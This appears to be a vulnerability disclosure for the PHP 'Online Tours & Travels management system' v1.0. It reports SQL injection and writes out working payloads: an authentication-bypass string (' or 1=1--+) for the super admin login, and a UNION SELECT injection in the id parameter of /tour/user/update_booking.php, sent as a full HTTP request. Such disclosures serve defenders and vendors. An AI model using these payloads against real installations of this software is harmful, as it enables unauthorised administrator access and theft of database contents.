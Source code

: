 # Online Tours & Travels management system v1.0 by mayuri_k has SQL injection

BUG_Author: Fanxin

Login account: mayuri.infospace@gmail.com' or 1=1--+/ (Super Admin account)

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tour/user/update_booking.php

Vulnerability location: /tour/user/update_booking.php?id=, id

dbname = tour1

[+] Payload: /tour/user/update_booking.php?id=1%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13--+ // Leak place ---> id

```sql
GET /tour/user/update_booking.php?id=1%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183011064-0c90f69c-60b8-4249-9877-0368626716e4.png)
